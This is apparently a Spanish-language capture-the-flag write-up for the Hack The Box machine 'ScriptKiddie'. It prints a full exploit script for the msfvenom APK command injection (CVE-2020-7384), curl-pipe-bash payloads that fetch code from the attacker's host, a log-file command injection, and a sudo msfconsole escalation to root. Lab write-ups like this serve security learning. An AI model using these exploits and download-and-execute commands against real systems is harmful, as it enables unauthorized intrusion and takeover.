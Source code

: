 ```yaml
---
layout: single
title: ScriptKiddie - Hack The Box
excerpt: "ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), along with classic attacks such as OS command injection and an insecure passwordless `sudo` configuration. Initial foothold on the machine is gained by uploading a malicious `.apk` file from a web interface that calls a vulnerable version of `msfvenom` to generate downloadable payloads. Once shell is obtained, lateral movement to a second user is performed by injecting commands into a log file which provides unsanitized input to a Bash script that is triggered on file modification. This user is allowed to run `msfconsole` as `root` via `sudo` without supplying a password, resulting in the escalation of privileges. "
date: 2024-04-19
classes: wide
header:
  teaser: /assets/images/htb-script/script.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Msfvenom
  - Script
  - Pivoting
---
```


![](/assets/images/htb-script/script.png)

ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), along with classic attacks such as OS command injection and an insecure passwordless `sudo` configuration. Initial foothold on the machine is gained by uploading a malicious `.apk` file from a web interface that calls a vulnerable version of `msfvenom` to generate downloadable payloads. Once shell is obtained, lateral movement to a second user is performed by injecting commands into a log file which provides unsanitized input to a Bash script that is triggered on file modification. This user is allowed to run `msfconsole` as `root` via `sudo` without supplying a password, resulting in the escalation of privileges. 

## Portscan

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.10.226 -oG allports                                     
[sudo] contraseña para kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 11:48 CEST
Initiating Ping Scan at 11:48
Scanning 10.10.10.226 [4 ports]
Completed Ping Scan at 11:48, 0.08s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:48
Scanning 10.10.10.226 [65535 ports]
Discovered open port 22/tcp on 10.10.10.226
Discovered open port 5000/tcp on 10.10.10.226
Completed SYN Stealth Scan at 11:48, 13.04s elapsed (65535 total ports)
Nmap scan report for 10.10.10.226
Host is up, received echo-reply ttl 63 (0.12s latency).
Scanned at 2024-04-18 11:48:21 CEST for 13s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.38 seconds
           Raw packets sent: 68669 (3.021MB) | Rcvd: 67851 (2.714MB)

```
Y con esto analizamos los puertos abiertos:
```
nmap -sCV -p22,5000 -Pn 10.10.10.226 -oN targeted                                                                                                                                                                 130 ⨯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 11:54 CEST
Nmap scan report for 10.10.10.226
Host is up (0.053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.21 seconds

```
## Analisis Web

Vemos que nos lleva a una pagina:
![](/assets/images/htb-script/pag1.png)

Vemos que la segunda introduccion de datos juega con msfvenom,  asi que vamos a buscar con searchsploit y encontramos un exploit. Nos lo llevamos a nuestro equipo y vammos a ver que hace:
```
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
payload = 'curl 10.10.16.6 | bash'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b64} | base64 -d | bash #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")

```
Hemos sustituido el comando para ejecutarnos una bash en nuestra ip, ahora le damos privilegios para poder meterlo en la página(sudo chown kali:kali -R /tmp/tmptgdoeu2s/)
Nos montamos un servidor en python y en escucha por la 443 y enviamos el exploit.

## Escalada de privilegios

Ahora ya hemos accedido al sistema.
Podemos encontrar la flag de usuario.
Vemos que hay un script hackers que no podemos leer pero si usar, y en el directorio logs encontramos el script de la app. La cual tambien usa scanloosers.sh en el directorio de otro usuario llamado pwn.
```
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
```
Aqui vemos que coje del script de hackers a partir del tercer input, lo que nos puede llevar a una posible inyeccion

```
echo "a b 10.10.16.6; curl 10.10.16.6 | bash #" > hackers
```
Si introducimos esto mientras seguimos en escucha en otra terminal por el puerto 443 y con un servidor en python3
Ahora hemos accedido al usuario pwn, vamos a ver que privilegios tiene este usuario:

```
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

```
Podemos ejecutar el metasploit con root,  y dentro de metasploit podemos usar una consola en la que ejecutar comandos y como lo hemos iniciado con root podremos usar comandos de root, y por tanto encontrar la flag de root:

```
msf6 > irb
stty: 'standard input': Inappropriate ioctl for device
[*] Starting IRB shell...
[*] You are in the "framework" object

system("whoami")
Switch to inspect mode.
irb: warn: can't alias jobs from irb_jobs.
>> system("whoami")
root
system("bash")
=> true
>> system("bash")
whoami
root
cd /root
ls
root.txt
snap
cat root.txt
34e315f940c71771856d6c7d95c36340

```
